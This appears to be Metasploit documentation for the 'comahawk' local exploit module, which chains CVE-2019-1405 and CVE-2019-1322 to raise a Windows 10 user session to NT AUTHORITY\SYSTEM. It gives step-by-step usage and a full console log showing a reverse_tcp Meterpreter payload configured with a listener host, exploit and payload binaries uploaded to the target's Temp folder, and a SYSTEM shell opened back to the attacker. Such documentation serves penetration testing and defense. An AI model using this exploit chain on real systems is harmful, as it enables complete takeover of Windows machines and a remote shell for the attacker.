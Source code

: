 ## Introduction

This leverages two vulnerabilities on specific builds of Windows 10 to
move from an authenticated user of any level to NT AUTHORITY\LOCAL SERVICE
and then from NT AUTHORITY\LOCAL SERVICE to NT AUTHORITY\SYSTEM.
The first (CVE-2019-1405) uses the UPnP Device Host Service to elevate to
NT AUTHORITY\LOCAL SERVICE
The second (CVE-2019-1322) leverages the Update Orchestrator Service to
elevate from NT AUTHORITY\LOCAL SERVICE to NT AUTHORITY\SYSTEM.

The exploit works by creating a new service, so the exploit may take
up to minute on test systems, and may take longer in the wild.  Adjusting
the exploit_timeout value in the datastore.

## Usage

1. Create a session on the target system under the context of an authenticated user.
2. Begin interacting with the module: `use exploit/windows/local/comahawk`.
3. Set the `PAYLOAD` and configure it correctly.
4. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
5. Make sure that the `SESSION` value is set to the existing session identifier.
6. Invoke the module: `run`.

## Scenarios

### Windows 10 (10.0 Build 17134) x64

```
[*] Meterpreter session 1 opened (192.168.135.168:5555 -> 192.168.132.125:49674) at 2019-12-11 18:33:09 -0600

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/comahawk 
msf5 exploit(windows/local/comahawk) > set versbose true
versbose => true
msf5 exploit(windows/local/comahawk) > set session 1
session => 1
msf5 exploit(windows/local/comahawk) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/comahawk) > set lhost 192.168.135.168
lhost => 192.168.135.168
msf5 exploit(windows/local/comahawk) > show options

Module options (exploit/windows/local/comahawk):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   EXECUTE_DELAY    3                yes       The number of seconds to delay between file upload and exploit launch
   EXPLOIT_NAME                      no        The filename to use for the exploit binary (%RAND% by default).
   EXPLOIT_TIMEOUT  60               yes       The number of seconds to wait for exploit to finish running
   PAYLOAD_NAME                      no        The filename for the payload to be used on the target host (%RAND%.exe by default).
   SESSION          1                yes       The session to run this module on.
   WRITABLE_DIR                      no        Path to write binaries (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf5 exploit(windows/local/comahawk) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] Attempting to PrivEsc on DESKTOP-D1E425Q via session ID: 1
[*] Exploit uploaded on DESKTOP-D1E425Q to C:\Users\msfuser\AppData\Local\Temp\TcpHnwmv.exe
[*] Payload (7168 bytes) uploaded on DESKTOP-D1E425Q to C:\Users\msfuser\AppData\Local\Temp\EubQLoJJbPMX.exe
[*] It may take a moment after the session is established for the exploit to exit safely.
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 2 opened (192.168.135.168:4444 -> 192.168.132.125:49679) at 2019-12-11 18:35:35 -0600

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

```
